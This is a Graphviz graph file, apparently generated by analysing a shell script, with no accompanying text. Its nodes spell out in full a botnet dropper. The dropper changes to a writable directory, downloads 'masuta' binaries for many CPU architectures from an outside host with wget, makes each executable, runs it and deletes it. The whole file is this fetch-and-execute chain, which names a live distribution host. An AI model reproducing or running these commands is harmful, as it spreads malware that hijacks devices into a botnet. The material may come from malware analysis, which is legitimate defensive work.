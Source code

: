 digraph {
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 10 [label="||,"];
10 [label="wget http://rozew.tk/bins/masuta.mips -O a "];
10 -> 12 [label=";,"];
12 [label="chmod +x a "];
12 -> 14 [label=";,"];
14 [label="./a ssh "];
14 -> 16 [label=";,"];
16 [label="rm -rf a "];
16 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 28 [label="||,"];
28 [label="wget http://rozew.tk/bins/masuta.x86 -O b "];
28 -> 30 [label=";,"];
30 [label="chmod +x b "];
30 -> 32 [label=";,"];
32 [label="./b ssh "];
32 -> 34 [label=";,"];
34 [label="rm -rf b "];
34 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 46 [label="||,"];
46 [label="wget http://rozew.tk/bins/masuta.ppc -O c "];
46 -> 48 [label=";,"];
48 [label="chmod +x c "];
48 -> 50 [label=";,"];
50 [label="./c ssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf c "];
52 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 64 [label="||,"];
64 [label="wget http://rozew.tk/bins/masuta.sh4 -O d "];
64 -> 66 [label=";,"];
66 [label="chmod +x d "];
66 -> 68 [label=";,"];
68 [label="./d ssh "];
68 -> 70 [label=";,"];
70 [label="rm -rf d "];
70 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 82 [label="||,"];
82 [label="wget http://rozew.tk/bins/masuta.arm -O e "];
82 -> 84 [label=";,"];
84 [label="chmod +x e "];
84 -> 86 [label=";,"];
86 [label="./e ssh "];
86 -> 88 [label=";,"];
88 [label="rm -rf e "];
88 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 100 [label="||,"];
100 [label="wget http://rozew.tk/bins/masuta.arm6 -O f "];
100 -> 102 [label=";,"];
102 [label="chmod +x f "];
102 -> 104 [label=";,"];
104 [label="./f ssh "];
104 -> 106 [label=";,"];
106 [label="rm -rf f "];
106 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 118 [label="||,"];
118 [label="wget http://rozew.tk/bins/masuta.arm7 -O g "];
118 -> 120 [label=";,"];
120 [label="chmod +x g "];
120 -> 122 [label=";,"];
122 [label="./g ssh "];
122 -> 124 [label=";,"];
124 [label="rm -rf g "];
124 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 136 [label="||,"];
136 [label="wget http://rozew.tk/bins/masuta.mpsl -O h "];
136 -> 138 [label=";,"];
138 [label="chmod +x h "];
138 -> 140 [label=";,"];
140 [label="./h ssh "];
140 -> 142 [label=";,"];
142 [label="rm -rf h "];
142 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 154 [label="||,"];
154 [label="wget http://rozew.tk/bins/masuta.sh4 -O i "];
154 -> 156 [label=";,"];
156 [label="chmod +x i "];
156 -> 158 [label=";,"];
158 [label="./i ssh "];
158 -> 159 [label=";,"];
}
